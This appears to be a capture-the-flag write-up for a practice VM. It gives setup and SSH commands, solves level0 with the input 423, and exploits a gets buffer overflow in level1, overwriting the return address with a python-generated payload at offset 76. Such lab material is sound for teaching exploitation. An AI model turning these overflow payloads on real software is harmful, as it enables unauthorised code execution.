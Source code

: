 ## Some commands

```shell
./scripts/startVM.sh
export RF_HOST=192.168.1.66
export RF_PORT=4242

./scripts/installPeda.sh

ssh -q level0@$RF_HOST -p $RF_PORT
sshpass -f level0/flag ssh level1@$RF_HOST -p $RF_PORT

scp -q -P $RF_PORT -r <FILE> level0@$RF_HOST:/tmp/<FILE>
```

---

## Level0 - Basic

atoi takes an argument equals 423

### Resolve

```shell
p /d 0x1a7
  423

~/level0 423
```

---

## Level1 - Gets buffer overflow -> Code redirection

Run function is not called and gets is vulnerable.

Override return address with run-function address

### Resolve

```shell
pattern create 200 input
run < input
pattern search
  EIP+0 found at offset: 76

run address: 0x08048444
python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit1
cat /tmp/exploit1 - | ~/level1
```

---
